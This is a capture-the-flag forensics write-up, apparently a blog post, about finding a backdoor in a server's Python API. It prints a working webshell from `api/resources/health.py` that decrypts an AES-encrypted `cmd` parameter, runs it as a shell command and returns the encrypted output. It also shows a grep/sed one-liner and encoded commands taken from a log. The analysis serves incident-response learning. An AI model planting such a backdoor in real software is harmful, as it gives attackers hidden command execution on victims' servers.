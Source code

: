 ### Solution

According to the description, it's time to take a look a the archive that we decrypted in the first challenge and inflat the archive inside it. Inside this archive, there is the result of an integrity check of the server. I take a look at the files and start investigating the python library. I saw that the API was a vector of attack, so I quickly begin to look at the code inside the api folder. All scripts seems OK, except one which ge my attention immedialtly when I opened it : `api/resources/health.py` which imports `base64`, `zlib` and `Pycryptodome` for AES.

Few lines after we have the following code :
```python
class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()        
                return result, 200
        except Exception as e:
            return str(e), 501
```
This code spinnet reads the file `/data/flag.txt` and uses it content as an AES key, then get the value of the parameter `cmd` in the GET request to the API path, decompress it, decrypt it with the AES cipher and then execute it.
So if I get the requests made at this endpoint of the API, I am able to decrypt it because I have the file `flag.txt` from the first part.

*Note : the following code was surely installed by the attackers using the reverse shell seen in the last part, it looks like the [FRAMESTING webshell](https://www.mandiant.com/resources/blog/investigating-ivanti-zero-day-exploitation)*


It's time to grep !
![grep again !](https://acmo0.github.io/assets/img/grep_again.gif)

```bash
grep -o 'cmd=.*' cav_webserv.log | grep -v 404 | sed -En 's/cmd=(.*+%3D) .*/\1/p'
// get the calls to the api path - discard not found - extract the base64

// DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA%3D
// K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ%3D
// /ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ%3D%3D
// Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA%3D%3D
// yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ%2B74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ%2B/o%3D
// 7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn%2BXeiWHpCWr%2ByyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD%2B0nZc8%3D
// WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz%2BJxmwQdxnJwNg%3D%3D
// G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM%3D
// QV2ImqgrjrL7%2BtofpO12S9bqgDCRHYXGJwaOIihb%2BNI%3D
```
